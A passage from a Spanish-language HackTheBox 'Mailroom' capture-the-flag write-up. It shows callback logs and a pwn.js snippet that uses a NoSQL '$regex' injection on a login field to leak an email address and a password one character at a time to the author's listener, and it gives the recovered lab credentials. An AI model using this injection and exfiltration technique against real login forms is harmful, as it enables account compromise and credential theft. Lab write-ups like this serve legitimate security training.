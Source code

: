 {% highlight sh %}
10.10.11.209 - - [13/Aug/2023 17:01:38] "GET /?char=tr&status=true HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 17:01:39] "GET /?char=ts&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 17:01:40] "GET /?char=tt&status=false HTTP/1.1" 200 -
10.10.11.209 - - [13/Aug/2023 17:01:41] "GET /?char=tu&status=false HTTP/1.1" 200 -
{% endhighlight %}

Seguimos asi consecutivamente y obtendremos el valor del campo email `tristan@mailroom.htb`.

#### **Nosql - Exfil (password)**

Despues de descubrir el campo email, tratemos de obtener su contraseña.

Solo hacemos esta modificacion (ademas de ir añadiendo y eliminando caracteres de la string `chars` y `know` posteriormente).

`pwn.js`
{% highlight javascript %}
const know = "";
const body = `email=tristan@mailroom.htb&password[$regex]=^${payload}`;
{% endhighlight %}

Primer caracter `6`.
{% highlight sh %}
10.10.11.209 - - [13/Aug/2023 17:10:44] "GET /?char=6&status=true HTTP/1.1" 200 -
{% endhighlight %}

Seguimos añadiendo cada caracter que nos devuelva true y finalmente obtenemos. `69trisRulez!`

Iniciar sesion en `git.mailroom.htb` nos devuelve un codigo de estado 500.

![500](/assets/hackthebox/img/machines/hard/mailroom/gitea-500.png)
